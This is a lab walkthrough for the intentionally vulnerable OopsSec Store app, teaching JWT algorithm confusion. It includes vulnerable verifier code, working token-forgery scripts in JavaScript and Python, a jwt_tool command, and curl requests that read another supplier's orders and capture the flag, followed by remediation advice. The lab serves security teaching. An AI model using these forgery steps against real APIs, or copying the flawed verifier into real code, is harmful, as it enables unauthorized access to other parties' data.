



OopsSec Store runs a Partner API for its suppliers. It hands out a sandbox token to anyone who clicks a button, it authenticates with RS256-signed JWTs, and it publishes its public key at `/.well-known/jwks.json` so partners can verify webhook callbacks. Every one of those decisions is correct on its own.

The verifier, though, reads the `alg` field out of the token header and does what it says. Give it `RS256` and it calls `crypto.verify`. Give it `HS256` and it calls `crypto.createHmac` — with the same key. That key is public. We can read it.

## Table of contents

## Lab setup

From an empty directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Or with Docker (no Node.js required):

```bash
docker run -p 3000:3000 leogra/oss-oopssec-store
```

The app runs at `http://localhost:3000`.

## Target identification

The footer has a "Partner API" link under Navigation. It leads to `/partners`, which reads like any B2B integration page: what the API does, how to authenticate, an endpoint table, a webhook section, a changelog, and a directory of suppliers already using it.



Three things on that page are worth writing down.

**The `sub` claim is the identity.** The authentication section says it outright:

> The **sub** claim is your partner ID and decides which purchase orders you can read. Endpoints take no partner parameter: whoever the token says you are is who you are.

No `?supplierId=` to tamper with. If we want someone else's data, we have to change the token itself.

**The public key is published deliberately.** The webhook section explains why:

> When a purchase order changes state we POST it to your callback URL and sign the body with the same key pair that signs access tokens. […] So we publish that public key, deliberately and permanently.

Two links: `/.well-known/jwks.json` and `/.well-known/partner-signing-key.pem`.

**Two algorithms are in play.** The changelog:

> **v2 — Current.** Access tokens are signed with RS256. […]
> **v1 — Deprecated.** Access tokens were signed with HS256 using a shared secret issued per supplier. The gateway still accepts them while the last integrations migrate, so the v2 rollout did not need a flag day.

A verifier that accepts both an asymmetric and a symmetric algorithm is a shape worth being suspicious about. Hold that thought.

**The partner directory** lists who else is on the API:

| Supplier                 | Partner ID    | Categories           |
| ------------------------ | ------------- | -------------------- |
| Knead to Know Bakehouse  | `SUP-001`     | Bakery, viennoiserie |
| Lettuce Encrypt Organics | `SUP-LETTUCE` | Produce, dairy       |
| Brie Force Fromagerie    | `SUP-BRIE`    | Cheese, charcuterie  |

Those are the values we would put in `sub` if we could sign a token.

## Getting a working token

Click **Generate sandbox token** on `/partners`, or call the endpoint directly:

```bash
TOKEN=$(curl -s -X POST http://localhost:3000/api/partner/sandbox-token | jq -r .access_token)
echo $TOKEN
```

Use it:

```bash
curl -s -H "Authorization: Bearer $TOKEN" \
  http://localhost:3000/api/partner/orders | jq
```

```json
{
  "partnerId": "SUP-SANDBOX",
  "count": 3,
  "orders": [
    {
      "purchaseOrderId": "PO-SBX-0003",
      "total": 1310.75,
      "notes": "Sandbox fixture — not a real commitment.",
      "createdAt": "2026-08-09T21:19:29.251Z"
    }
  ]
}
```

Dummy data, as advertised. Now decode the token:

```bash
echo $TOKEN | cut -d. -f1 | base64 -d 2>/dev/null; echo
echo $TOKEN | cut -d. -f2 | base64 -d 2>/dev/null; echo
```

```json
{ "alg": "RS256", "typ": "JWT", "kid": "ZTLqFfje…" }
{
  "iss": "https://oopssec.store",
  "sub": "SUP-SANDBOX",
  "scope": "orders:read",
  "iat": 1786310396,
  "exp": 1786313996
}
```

`sub` is `SUP-SANDBOX`. Using tool like [jwt.io](https://www.jwt.io/), change it to `SUP-LETTUCE` and the signature breaks — we do not have the private key.



Unless we do not need it.

## Understanding the vulnerability

### One key, two meanings

RS256 is asymmetric. The private key signs, the public key verifies, and knowing the public key tells you nothing useful about how to sign. That asymmetry is what makes it safe to publish a JWKS.

HS256 is symmetric. `HMAC-SHA256(secret, message)` is computed the same way by whoever signs and whoever verifies. There is one key and it is a secret.

Now suppose a verifier accepts both, and both branches read the same variable — a variable that holds the RSA public key. Under the RS256 branch, that variable is public verification material, which is fine. Under the HS256 branch, the same bytes are now "the secret". And they are printed on a web page.

So: take the token, rewrite the header to say `HS256`, put whatever we like in the payload, and sign it with `HMAC-SHA256` keyed on the published public key. The server reads `alg: HS256`, computes `HMAC-SHA256(public key, header.payload)`, gets the same value we did, and accepts.

### What the code actually does

`lib/partner-auth.ts`:

```typescript
const algorithm = decodeSegment<{ alg?: string }>(header)?.alg;
const key = getPartnerTokenKey();

let signatureIsValid: boolean;
if (algorithm === "RS256") {
  signatureIsValid = crypto.verify(
    "RSA-SHA256",
    Buffer.from(signingInput),
    { key },
    Buffer.from(signature, "base64url")
  );
} else if (algorithm === "HS256") {
  signatureIsValid =
    crypto
      .createHmac("sha256", key)
      .update(signingInput)
      .digest("base64url") === signature;
} else {
  return null;
}
```

One `key`. Two algorithms. `getPartnerTokenKey()` returns the RSA public key PEM — the exact string served at `/.well-known/partner-signing-key.pem`.

This is not a contrived shape. It is what an unfinished migration looks like: the HS256 branch predates the RS256 one, the variable that used to hold the per-supplier shared secret was repointed at the new key material, and the branch nobody wanted to break stayed.

## Exploitation

### Step 1: Get the exact key bytes

This is the fiddly part. `createHmac` keys on **bytes**, so our HMAC key has to be byte-for-byte what the server passes in: the full PEM, `-----BEGIN PUBLIC KEY-----` header included, base64 line breaks preserved, trailing newline present. One missing `\n` and the signature simply will not match, with no error message to tell you why.

The instructive route is to rebuild the PEM from the JWKS, since that is what you would have to do against a real target that only publishes a JWK:

```bash
curl -s http://localhost:3000/.well-known/jwks.json | jq
```

```json
{
  "keys": [
    {
      "kty": "RSA",
      "n": "qNe4nHCHMZxQMJb_-I2MWckKsUT-16_Mjy64fqcXpiGu6HvEQStT…",
      "e": "AQAB",
      "use": "sig",
      "alg": "RS256",
      "kid": "ZTLqFfjebiIijPCnaGTYUBOeVqayDNg2RmYy0yc3A58"
    }
  ]
}
```

Node converts a JWK to SPKI PEM without any manual DER assembly:

```javascript
import crypto from "crypto";

const { keys } = await (
  await fetch("http://localhost:3000/.well-known/jwks.json")
).json();

const pem = crypto
  .createPublicKey({ key: keys[0], format: "jwk" })
  .export({ type: "spki", format: "pem" });
```

In Python, `jwcrypto` or `python-jose` do the same job:

```python
from jwcrypto import jwk
import requests

jwks = requests.get("http://localhost:3000/.well-known/jwks.json").json()
key = jwk.JWK(**jwks["keys"][0])
pem = key.export_to_pem()  # bytes, SPKI, trailing newline included
```

If the encoding fights you, take the shortcut — OopsSec Store also serves the raw PEM, exactly as many real providers do:

```bash
curl -s http://localhost:3000/.well-known/partner-signing-key.pem > key.pem
```

Both routes produce identical bytes. Verify it if you want to be sure:

```bash
diff <(curl -s http://localhost:3000/.well-known/partner-signing-key.pem) key.pem && echo "identical"
```

### Step 2: Forge the token

```javascript
import crypto from "crypto";

const BASE = "http://localhost:3000";
const TARGET = "SUP-LETTUCE";

const pem = await (
  await fetch(`${BASE}/.well-known/partner-signing-key.pem`)
).text();

const b64 = obj => Buffer.from(JSON.stringify(obj)).toString("base64url");
const now = Math.floor(Date.now() / 1000);

const header = b64({ alg: "HS256", typ: "JWT" });
const payload = b64({
  iss: "https://oopssec.store",
  sub: TARGET,
  scope: "orders:read",
  iat: now,
  exp: now + 3600,
});

const signature = crypto
  .createHmac("sha256", pem)
  .update(`${header}.${payload}`)
  .digest("base64url");

console.log(`${header}.${payload}.${signature}`);
```

Note `digest("base64url")`, not `base64`. JWT signatures are base64url: `+` becomes `-`, `/` becomes `_`, and the `=` padding is stripped. Getting this wrong is the second most common reason a forgery "mysteriously" fails.

The `kid` header can be dropped. The verifier never looks at it, and leaving it in would be claiming our HMAC was produced by an RSA key.

`jwt_tool` automates the whole thing if you would rather not write the script:

```bash
python3 jwt_tool.py $TOKEN -X k -pk key.pem -I -pc sub -pv SUP-LETTUCE
```

### Step 3: Read the competitor's purchase orders

```bash
curl -s -H "Authorization: Bearer $FORGED" \
  http://localhost:3000/api/partner/orders | jq
```



There it is: another supplier's contract terms, landed costs and margins — and the flag. Of all the partners on the directory, the one that got read was Lettuce Encrypt.

```
OSS{jwt_4lg_c0nfus10n}
```

The other two directory entries work the same way. Swap `sub` and you have read the whole supplier base.

## Remediation

### Pin one algorithm

The most important one. The verifier decides how a token is signed. Never the token.

```typescript
const EXPECTED_ALGORITHM = "RS256";

const header = decodeSegment<{ alg?: string }>(encodedHeader);
if (header?.alg !== EXPECTED_ALGORITHM) {
  return null;
}
```

With a library, pass the allow-list explicitly and keep exactly one entry in it:

```javascript
jwt.verify(token, publicKey, { algorithms: ["RS256"] });
```

An allow-list with two families in it — `["RS256", "HS256"]` — is this vulnerability, spelled differently. That array is normally added during a migration and then forgotten. CVE-2015-9235 and CVE-2022-23540 are both this bug at library level.

### Keep signing and verification keys in separate variables

```typescript
const PARTNER_SIGNING_PRIVATE_KEY = getPartnerPrivateKey();
const PARTNER_VERIFICATION_PUBLIC_KEY = getPartnerTokenKey();
```

Never a generic `key` that both code paths reach for. This is the structural fix rather than the tactical one: with one variable per role, one call site each, and types that do not interchange, the bug becomes unwriteable. If a migration truly needs two algorithms at once, give each its own verifier function with its own key variable, and pick between them on something the attacker does not control — the API version in the URL, or a `kid` looked up in a key store that records which algorithm that key may be used with.

### While you are in there

- Verify `iss`, `aud` and `exp`, and reject tokens that omit them.
- Compare MACs with `crypto.timingSafeEqual`, not `===`.
- Reject `alg: none` explicitly; never let a missing `alg` fall through to a default.
- Treat the JWKS as a key store, not a key source. A token's `jku` or `jwk` header must never tell you where to fetch verification material.

## Takeaways

- A published public key is not a leak. It is the mechanism working as designed — JWKS endpoints exist precisely so that anyone can verify.
- "Public" and "harmless" are different claims. Public key material becomes dangerous the moment a code path is willing to treat it as a secret.
- Algorithm agility in a verifier is a liability, not a feature. Every extra accepted `alg` is another way for the token to choose how it gets checked.
- Incomplete migrations are where this lives. The v1 branch nobody wanted to break outlived the reason it existed, which is how most of these bugs reach production.

## References

- [RFC 8725 — JSON Web Token Best Current Practices, §3.1](https://datatracker.ietf.org/doc/html/rfc8725#section-3.1)
- [CWE-347: Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)
- [CVE-2015-9235](https://nvd.nist.gov/vuln/detail/CVE-2015-9235) · [CVE-2022-23540](https://nvd.nist.gov/vuln/detail/CVE-2022-23540)
- [PortSwigger — JWT algorithm confusion attacks](https://portswigger.net/web-security/jwt/algorithm-confusion)
- [jwt_tool](https://github.com/ticarpi/jwt_tool)
